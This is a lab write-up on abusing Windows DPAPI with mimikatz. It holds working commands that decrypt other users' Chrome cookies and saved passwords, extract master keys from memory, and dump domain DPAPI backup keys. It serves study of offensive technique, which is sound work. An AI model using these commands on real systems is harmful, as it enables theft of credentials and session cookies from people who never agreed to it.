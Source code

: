 # Reading DPAPI Encrypted Secrets with Mimikatz

This lab is based on the article posted by harmj0y [https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/) and the aim is get a bit more familiar with DPAPI and its implementations in mimikatz.l

## Overview

* DPAPI stands for Data Protection API.
* DPAPI is contains 2 functions for encrypting \(`CryptProtectData`\) and decrypting \(`CryptUnprotectData`\) data.
* Created to help developers that know little about cryptography make their programs better at securing users' data.
* Encrypts secrets like wifi passwords, vpn, IE, Chrome, RDP, etc.
* Transparent to end users - programs \(i.e Chrome use the two APIs\) with user's master key which is based on the user's actual logon password.

## Reading Chrome Cookies and Login Data

If you have compromised as system and run under a particular user's context, you can decrypt their DPAPI secrets without knowing their logon password easily with mimikatz.

In this case - let's check user's google chrome cookies:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-15-31-49.png)

Or any saved credentials:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-15-34-29.png)

## Protecting and Unprotecting Data

Using mimikatz, we can easily encrypt any data that will only be accessible to currently logged on user \(unless a bad admin comes by - more on this later\):

```csharp
dpapi::protect /data:"spotless"
```

![text &quot;spotless&quot; encrypted into a blob of bytes](../../.gitbook/assets/screenshot-from-2019-04-13-15-42-36.png)

I copy pasted the blob into a new file in HxD and saved it to spotless.bin on my desktop. To decrypt it while running under `mantvydas` user context:

```csharp
dpapi::blob /in:"c:\users\mantvydas\desktop\spotless.bin" /unprotect
```

![](../../.gitbook/assets/screenshot-from-2019-04-13-15-43-02.png)

## Decrypting Other User's Secrets

If you compromised a system and you see that there are other users on the system, you can attempt reading their secrets, but you will not be able to do so since you do not have their DPAPI masterkey.

Let's try reading user's `spotless` chrome secrets while running as a local admin on the compromised system:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /unprotect
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-15-55-38.png)

If you run as a privileged user, you can try looking for the master key in memory:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::dpapi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We see there is the master key for spotless!

![](../../.gitbook/assets/screenshot-from-2019-04-13-16-03-34.png)

Let's now use the masterkey found earlier to decrypt those chrome secrets:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /unprotect /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-16-05-55.png)

If the user is not logged on, but you have their password, just spawn a process with their creds and repeat the above steps to retrieve their secrets.

### Retrieving MasterKey with User's Password

Same could be achieved if user's SID, password and master key GUIDs are known:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /sid:S-1-5-21-2552734371-813931464-1050690807-1106 /password:123456 /protected
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-18-02-42.png)

## Extracting DPAPI Backup Keys with Domain Admin

It's possible to extract backup keys that enable us to decrypt any user's master key and then decrypt user secrets.

While running as a domain admin, let's dump the backup keys:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
lsadump::backupkeys /system:dc01.offense.local /export
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-16-57-55.png)

Using the retrieved backup key, let's decrypt user's spotless master key:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-17-11-48.png)

We can now decrypt user's spotless chrome secrets using the decrypted master key:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-17-16-47.png)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/" %}



